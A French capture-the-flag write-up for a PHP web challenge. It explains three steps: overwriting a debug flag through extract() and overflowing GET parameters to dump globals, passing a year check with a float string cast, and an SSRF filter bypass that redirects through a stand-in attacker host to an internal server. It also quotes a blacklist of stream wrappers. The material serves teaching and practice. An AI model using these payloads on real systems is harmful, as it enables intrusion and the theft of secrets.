







# PHP Guru

**Auteur :** [Mika](https://x.com/bWlrYQ)
**Énoncé :**  


Votre ami est un véritable gourou du PHP, il ne jure que par ce langage d'exception ! Cependant, il est bien conscient que PHP possède certaines petites, spécificités (c'est ainsi qu'il aime les appeler, pour ne pas dire erreurs de conceptions, PHP n'est tout de même pas JavaScript)... C'est pourquoi il a créé une plateforme pour ses amis, permettant des les éduquer et de renforcer leurs connaissances en PHP afin qu'ils pusisent sécuriser leurs propres applicatifs. Dans sa grande bonté, le gourou vous a fourni le code source de l'application, selon lui le "guessing" en web n'est plus drôle du tout. Voulez-vous vous prêter à son jeu ? Si vous remportez l'épreuve, un "drapeau", vous sera offert.
**Difficulé :** Difficile  
**Code Source :** Oui

> Résumé : Ce challenge consistait à exploiter différentes fonctionnalités du langage PHP au travers de plusieurs "jeux".

## Introduction 

En lisant le code source, on se rend compte que le challenge est décomposé en 3 étapes successives. Etant donné que le nom du flag est généré aléatoirement au démarrage de chaque conteneur (`entrypoint.sh`), il nous faudra :

- lister les fichiers et les lires  

ou :

- obtenir une éxecution de code sur le serveur 

Nous avons 2 services en écoute sur le conteneur (`entrypoint.sh`), un serveur HTTP listant les fichiers à la racine en écoute sur 127.0.0.1 ainsi qu'un sevice apache qui héberge le code de notre application.

## Step 1 
### Analyse préléminaire


La première étape demande à l'utilisateur un mot de passe généré aléatoire au démarrage du conteneur et passé en variable d'environnement à l'application au démarrage d'apache. Il y a ici 2 choses intéressantes à voir dans le code source :

`login.php`
```php
<?php

include "lib/global.php";
include "lib/error.php";

if ($_SESSION["loggedin"] === true){
    header("Location: private.php");
    exit();
}

if (!getenv("PASSWORD")) {
    die('<div class="container text-center mt-5"><div class="alert alert-danger">Password not set, please set the <strong>PASSWORD</strong> environment variable.</div></div>');
}

extract($_GET);

$PASSWORD = getenv("PASSWORD");
$message = "";
$alert_type = "";

if (isset($password)) {
    if ($password === $PASSWORD) {
        $_SESSION["loggedin"] = true;
        $message = "🎉 Bien joué ! Vous pouvez accéder à l'étape suivante <a href='index.php'>ici</a>.";
        $alert_type = "success";
    } else {
        $message = "❌ Mauvais mot de passe. Réessayez !";
        $alert_type = "danger";
    }
}

header('Game-Number: 1/3');
?>
```

`lib/error.php`
```php
<?php

$DEBUG = 0;

function errorHandler($errno, $errstr, $errfile, $errline) {
    echo '<br><br><!DOCTYPE html>
        [...]
        <div class="error-container">';

    if ($GLOBALS["DEBUG"] == 1) {
        echo "<h1>Yoo dev friend, you'll need this:</h1>";
        /* [...] */
        echo "<h3>Global Variables at the Time of Error:</h3><pre>";
        print_r($GLOBALS);
        echo "</pre>";
        echo "</div>";
    } else {
        echo "<h1>Something went wrong. Please try again later.</h1>";
    }

    echo '<a href="index.php" class="error-btn">Go Back</a>';
    echo '</div></body></html>';

    exit(1);
}

set_error_handler("errorHandler");
?>
```

### Activer le mode de débug
La première étape fait appel à `lib/error.php` pour gérer les erreurs de l'applicatif. Si le mode de debug est activé alors les variables globales de l'application sont affichées à l'utilisateur. Le mot de passe est contenu dans une variable globale : 

```php
$PASSWORD = getenv("PASSWORD");
```

Dans notre contexte, par défaut le mode de débug est désactivé. Cependant, afin de récupérer les paramètres GET directement dans des variables, le code source utilise [`extract()`](https://www.php.net/manual/en/function.extract.php). L'usage d'extract() sur une entrée utilisateur est non sécurisé car il permet à ce même utilisateur de réécrire des variables précédemment déclarées. 

L'entrée utilisateur est considérée comme une chaîne de caractères, mais dans `error.php`, la comparaison étant une "loose comparison" avec `==`, ("1" == 1) retourne vrai, ce qui nous permet de passer la condition et d'afficher les variables globales.

### Provoquer une erreur 
Nous pouvons maintenant activer le mode de débug, il reste à : provoquer une erreur. Sans erreur, la fonction `errorHandler()` ne sera pas appelée et il ne sera pas possible d'utiliser le mode de débug correctement. 

Le code PHP correspondant à `login.php` est très minimaliste, il est difficile de provoquer une erreur, quoi qu'il en soit, nous remarquons qu'à la fin un Header contenant le numéro du jeu est envoyé au navigateur HTTP. Par défaut, sur l'image Docker `php:8.3-apache` la remontée d'erreurs à un utilisateur n'est pas désactivée. Ce qui signifie que lorsque'une erreur/warning est détecté, elle est renvoyée à l'utilisateur. Un exemple est le suivant : 

```
<b>Warning</b>:  session_start(): Session cannot be started after headers have already been sent in <b>/var/www/html/lib/global.php</b> on line <b>3</b><br />
```

Pour se faire, le serveur est obligé de préparer sa réponse en renvoyant d'abord les headers de la réponse HTTP : 

```
HTTP/1.1 200 OK
Date: Thu, 27 Feb 2025 10:11:12 GMT
Server: Apache/2.4.62 (Debian)
X-Powered-By: PHP/8.3.17
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 930
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```

Suivi du contenu "HTML" (donc le warning). Ce qui signifie qu'après l'envoi du warning, si le code PHP tente de renvoyer un header, cela lèvera une erreur car les headers ont déjà été envoyés et le contenu de la réponse HTML est attendu désormais. 

La limite d'arguments GET est de 1000 sur une requête HTTP par défaut avec PHP, au delà, cela lève une erreur. En construisant une requête HTTP GET avec plus de 1000 arguments, le serveur enverra un warning au client puis lorsque le code PHP de `login.php` va tenter de renvoyer le header avec le numéro de jeu, cela va lever une erreur qui déclenchera la fonction de `errorHandler()` de `error.php`.

En abusant de `extract()` et de la loose comparison, il sera donc possible de récupérer les globals de l'application. Cette requête :
```
http://localhost:8005/login.php?DEBUG=1&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a&a
```

Provoque le résultat suivant : 


Pour plus de détails sur cette technique, vous pouvez vous référer au [talk de Pilvar](https://youtu.be/Sm4G6cAHjWM?feature=shared&t=1553) présentant le sujet, à l'Insomnihack.



## Step 2 

La seconde étape demande à l'utilisateur d'entrer l'année courante, cependant quelques "protections" sont en place : 

`game.php`
```php
$date = new DateTime();
$today_date = $date->format('d-m-Y');
$real_year = (int) date("Y");
$real_year_last_digit = $real_year % 10;
$message = "";
$alert_type = "";

if (isset($_GET["year"])) {
    $year = $_GET["year"];
    $year_int = (int) $year;

    if (str_contains($year, (string) $real_year_last_digit)) {
        $message = "L'année ne peut contenir le chiffre " . $real_year_last_digit . ".";
        $alert_type = "danger";
    } elseif (!is_numeric($year)) {
        $message = "Une année devrait être un nombre, un peu d'effort...";
        $alert_type = "warning";
    } elseif ($year_int === $real_year) {
        $_SESSION["gamecompleted"] = true;
        $message = "🎉 Bravo ! Vous pouvez accéder à l'étape suivante <a href='index.php'>ici</a>.";
        $alert_type = "success";
    } else {
        $message = "❌ Non, ce n'est pas ça. Réessayez !";
        $alert_type = "danger";
    }
}
```

Le code vérifie que le dernier digit de la date entrée n'est pas le même que l'année en cours, que l'entrée est bien numérique, mais aussi que l'année entrée correspond bien à l'année en cours. La dernière comparaison étant bloquée par la première, il n'est pas possible d'entrer exactement l'année en cours.

Nous remarquons que l'année entrée par l'utilisateur est 'castée' en (int) par le script : 
```
$year_int = (int) $year;
```

`2024.999999999999999999999999` donne `2025` une fois casté en entier en PHP. Avec cette entrée nous pouvons donc valider le jeu !



## Step 3 

La 3ème et dernière étape est une bibliothèque de poèmes depuis laquelle il est possible de choisir un poème pour le lire : 



Le poème choisi par l'utilisateur est récupéré via un paramètre GET, puis il lui est renvoyé depuis le répertoire où sont les poèmes. Dans le cas où l'utilisateur entre un poème qui ne serait pas valide, une fonction 'sanitize' `lib/security.php` est appelée pour traiter l'entrée utilisateur.

```php
function sanitize($input) {
    $input = strtolower(urldecode($input));
    
    $WRAPPERS_BLACKLIST = array(
        "file://",
        "ftp://",
        "glob://",
        "phar://",
        "ssh2://",
        "rar://",        
    );
    
    foreach ($WRAPPERS_BLACKLIST as $wrapper) {
        if (str_contains($input, $wrapper)) {
            return "poems/invalid.txt";
        }
    }

    if (str_contains($input, "..")) {
        return "poems/invalid.txt";
    }

    if (filter_var($input, FILTER_VALIDATE_URL)) {
        $url = parse_url($input);
        $ip = gethostbyname($url['host']);
        if (filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {
            if (isset($url['port'])) {
                return $url['scheme'] . "://" . $ip . ":" . $url['port'] . $url['path'];
            } else {
                return $url['scheme'] . "://" . $ip . $url['path'];
            }
        }
    }

    return "poems/invalid.txt";
```

Le wrapper `http://` est utilisable au travers de `fopen()`, ce qui permet normalement d'aller requête le serveur HTTP sur le port 8000 listant les fichiers à la racine, cependant un filtre vérifie que l'IP ou domaine renseignés ne pointent pas vers une adresse ip privée ou réservée (`FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE`). 

Il est possible de contourner cette restriction en redirigeant `fopen()` à l'aide d'un code HTTP 302. Sur un serveur accessible publiquement via Internet, on peut mettre en place un reverse proxy (ici Caddy) qui va rediriger l'utilisateur vers 127.0.0.1 pour toute requête : 

```
:80  {
    redir http://127.0.0.1:8000{uri}
}
```

Avec le payload suivant : `http://localhost:8005/private.php?poem=http://attackant.tld/`, il est possible de rediriger fopen() sur le serveur HTTP interne : 



Puis de récupérer le flag : 



La résolution complète est automatisée à l'aide de [solve.py](solve.py)

